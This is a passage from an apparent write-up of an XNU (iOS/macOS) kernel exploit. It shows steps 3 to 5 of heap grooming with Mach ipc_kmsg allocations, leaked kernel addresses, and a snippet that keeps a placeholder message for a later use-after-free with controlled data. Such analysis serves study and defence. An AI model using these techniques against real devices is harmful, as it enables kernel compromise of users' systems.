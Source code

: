For running result, It shows that `ipc_kmsg` is located at following specific address.

```cpp
[*] struct ipc_kmsg(port=0x2303) = 0xffffffe0db7d0000
```

![image.png](pics/image%203.png)

## 4. Allocation of second `ipc_kmsg`

Same as step 3.

Allocate another 8-page `ipc_kmsg` and store it in `placeholder_message_port` for keeping. This `ipc_kmsg` will be located after first `ipc_kmsg`.

It remains allocated for now, but it appears the code is preparing to free it later and have it reallocated with controlled data to trigger UAF.

```cpp
// this is a placeholder, we need it allocated for now but later it'll be freed and allocated with controlled data which will be UAFd
    mach_port_t placeholder_message_port = POP_PORT();
    ret = send_message(placeholder_message_port, data, (uint32_t)message_size_for_kalloc_size(8 * pagesize) - sizeof(struct simple_msg));
    if (ret) {
        printf("[-] Failed to send message\n");
        goto err;
    }
```

The `second ipc_kmsg` is located at following specific address.

```cpp
[*] struct ipc_kmsg 2(port=0x2203) = 0xffffffe0db7f0000
```

![image.png](pics/image%204.png)

## 5. OOL port msg allocation
